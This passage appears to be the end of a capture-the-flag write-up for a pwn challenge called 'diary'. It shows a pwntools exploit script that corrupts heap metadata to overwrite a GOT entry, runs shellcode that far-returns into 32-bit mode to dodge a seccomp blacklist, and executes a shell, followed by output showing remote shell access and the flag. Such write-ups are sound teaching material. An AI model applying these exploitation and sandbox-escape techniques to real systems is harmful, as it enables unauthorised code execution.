     xor rsp, rsp
    mov esp, 0x602160
    mov DWORD PTR [esp+4], 0x23
    mov DWORD PTR [esp], 0x602190
    retf
    ''')

    payload = "\x90" * 0x60
    payload += asm(sc, os='linux', arch='amd64') + "\x00"

    register(1980, 1, 5, 0x100, payload, 0)

    e = ELF('diary')

    payload = p64(heap-0x50)
    payload += p64(e.got['exit']-8)
    payload += "C" * 8
    payload += "D" * 8
    register(1970, 2, 2, 32, payload, 1)
    register(1970, 3, 3, 32, "B"*32, 1)
    delete(1970, 2, 2)

    r.sendline('0')

    r.sendline(asm(shellcraft.i386.linux.execve('./bash'), arch='x86'))

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/mma/diary/diary'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
 diary python ./diary.py pwn1.chal.ctf.westerns.tokyo 13856
[*] For remote: ./diary.py HOST PORT
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 13856: Done
[*] leak: 0x7fcad79c8080
[*] '/vagrant/mma/diary/diary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[*] Switching to interactive mode
Bye!
$ echo *
bash diary flagflag_oh_i_found
$ read -r line < flagflag_oh_i_found
$ echo $line
TWCTF{bl4ckl157_53cc0mp_54ndb0x_15_d4ng3r0u5}
$

{% endhighlight %}

* Thanks again [Ricky Zhou](https://twitter.com/riczho)
